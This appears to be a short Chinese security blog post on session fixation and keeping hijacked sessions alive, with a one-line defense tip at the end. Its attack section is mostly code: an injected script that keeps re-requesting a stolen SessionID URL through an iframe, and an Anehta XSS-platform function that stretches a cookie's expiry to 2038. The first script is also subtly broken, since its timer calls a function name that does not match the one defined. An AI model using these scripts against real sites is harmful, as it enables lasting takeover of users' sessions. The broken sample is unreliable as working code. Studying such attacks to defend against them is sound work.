 ```yaml
---
title: "14 会话保持攻防"
date: 2024-01-10T15:37:34+08:00
categories: ["Web安全和加速"]
tags: ["网络安全","技巧"]
draft: false
code:
  copy: true
toc:
  enable: true
---
```


> 会话固定实际上是一种特殊的会话劫持，这种攻击方式是指攻击者将自己设定的`SessionID`通过诱骗的方式提供给正常用户去访问系统，导致正常用户实际上是以攻击者设定的身份在进行操作。

> 会话保持是一种特殊的会话劫持，是建立在会话劫持的理论基础上，攻击者通过不断刷新导致服务端误判当前用户是持续活跃状态，导致`Session`永不过期，可以长期被利用劫持会话。

## 一、攻击步骤

1. 攻击者植入如下脚本，主要目的就是每隔一小段时间，就尝试用劫持来的`SessionID`访问目标系统，保持`Session`存活`Cookie`永不过期

   ```html
   <!-- Session 保活 -->
   <script>
   //要保持session的url
   var url = "http://www.normal.com/wap/index.php?/sid=LOXSAJH4M";
   //定时任务
   window.setInterval("keeyId()",6000);
       
   function keepsid(){
   	document.getElementById("iframe1").src=url+"&time"+Math.random();
   }
   </script>
   <iframe id="iframe1" src=""/></iframe>
   ```

   ```javascript
   // Cookie 永不过期
   // Anehta 是一个XSS利用平台
   anehta.dom.persistCookie = function (cookieName) {
   	if (anehta.dom.checkCookie(cookieName) == false) {
   		return false;
   	}
   	try{
   		document.cookie = cookieName + "=" + anehta.dom.getCookie(cookieName)+";" + "expires=Thu, 01-Jan-
   2038 00:00:01 GMT;";
   	} catch( e){
   		return false;
   	}
   	return true;
   }
   ```

## 二、防护策略

1. 比较建议的做法是服务端判断当前访问用户的`IP`、`UserAgent`等能标识用户的客户端环境信息，当发生变化时立刻销毁`Session`并要求用户重新登陆。
